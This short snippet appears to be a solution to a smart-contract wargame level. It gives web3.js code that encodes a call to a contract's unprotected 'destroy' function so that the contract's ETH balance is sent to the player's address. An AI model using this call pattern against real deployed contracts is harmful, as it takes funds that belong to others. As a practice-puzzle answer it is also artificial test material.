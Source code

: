 call destroy to withdraw eth balance in contract

```
const data = web3.eth.abi.encodeFunctionCall({
    name: 'destroy',
    type: 'function',
    inputs: [{
        type: 'address',
        name: '_to'
    }]
}, [player]);

sendTransaction({ from: player, to: '<token contract address>', data });
```
